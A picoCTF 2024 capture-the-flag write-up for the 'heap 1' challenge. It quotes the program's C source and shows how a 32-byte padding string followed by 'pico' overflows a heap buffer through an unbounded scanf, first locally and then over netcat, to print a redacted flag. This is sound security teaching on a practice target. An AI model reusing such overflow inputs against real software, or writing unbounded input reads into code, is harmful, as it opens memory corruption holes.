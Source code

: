 # heap 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2024, Binary Exploitation, browser_webshell_solvable, heap
Author: ABRXS, PR1OR1TYQ

Description:
Can you control your overflow?

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc tethys.picoctf.net 51438
 
Hints:
1. How can you tell where safe_var starts?
```
Challenge link: [https://play.picoctf.org/practice/challenge/439](https://play.picoctf.org/practice/challenge/439)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
Main basically does the following:
- Initialize the heap by calling the `init` function 
- Print the contents of the heap with the `print_heap` function
- Print the menu with the `print_menu` function
- Read the menu choice, basically 1-4, and do different things based on the choice

The `check_win` function (menu choice 4) will print the flag for us if we have managed to change the contents of the `safe_var` variable to `pico`
```c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_1]
└─$ ./chall

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5623223f06b0  ->   pico
+-------------+----------------+
[*]   0x5623223f06d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 
```
The difference between the memory positions is 32 bytes. 

Let's write say 32 bytes of junk data followed by `pico`
```bash
Enter your choice: 2
Data for buffer: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDpico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5623223f06b0  ->   AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDpico
+-------------+----------------+
[*]   0x5623223f06d0  ->   pico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
zsh: segmentation fault  ./chall
```
Success, we managed to overwrite `safe_var` with the correct value.  
The segmentation fault error is due to the fact that no `flag.txt` file exists in the directory.

The cause is [the unbounded use of scanf](https://stackoverflow.com/questions/31379442/has-scanf-a-limited-bound-on-the-number-of-bytes-that-the-user-can-input) (`scanf("%s", input_data);`) in the `write_buffer` function.

### Get the flag

Finally, we connect to the site vith netcat and follow the same procedure
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/heap_1]
└─$ nc tethys.picoctf.net 51438

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x561d1306b2b0  ->   pico
+-------------+----------------+
[*]   0x561d1306b2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDpico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [Wikipedia - Heap (data structure)](https://en.wikipedia.org/wiki/Heap_(data_structure))
- [Wikipedia - Heap overflow](https://en.wikipedia.org/wiki/Heap_overflow)
